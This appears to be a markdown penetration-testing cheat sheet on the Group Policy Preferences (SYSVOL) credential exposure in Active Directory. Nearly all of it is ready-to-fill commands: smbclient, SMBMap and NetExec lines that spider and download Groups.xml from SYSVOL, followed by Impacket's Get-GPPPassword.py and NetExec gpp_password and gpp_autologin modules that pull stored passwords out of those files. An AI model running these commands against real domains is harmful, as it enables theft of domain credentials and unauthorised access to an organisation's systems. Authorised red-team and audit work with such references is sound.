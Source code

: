 # Unix Shell

## 01 - Manual

### 1.1 - Samba Suite Utils

Authentication syntax.

```
$ smbclient -U "<username>%<password>" //<IP>/SYSVOL

$ smbclient -U "<username>" --password="<password>" //<IP>/SYSVOL
```

Retrieve XML files recursively.

```
smb: \> cd <domain_name>/Policies

smb: \> recurse on

smb: \> prompt off

smb: \> mget *.xml
```

### 1.2 - SMBMap

```
$ smbmap -u "<username>" -p "<password | nt_hash>" [-d <domain>] -H <IP> -F "Groups.xml" --search-path "SYSVOL\"

$ smbmap -u "<username>" -p "<password | nt_hash>" [-d <domain>] -H <IP> --download "SYSVOL\path\to\remote\Groups.xml"
```

### 1.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --spider SYSVOL --pattern Groups.xml

$ netexec smb -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file /path/to/remote/Groups.xml
```

## 02 - Extract Credentials

### 2.1 - Impacket

```
$ Get-GPPPassword.py [<domain>/]<username>:"<password>"@<IP>

$ Get-GPPPassword.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

### 2.2 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -M gpp_autologin

$ netexec smb -u "<username>" -p "<password>" [-d <domain> | --local-auth] -M gpp_password
```

---
## References

 - [VK9 Security: Exploiting GPP SYSVOL (Groups.xml)](https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/)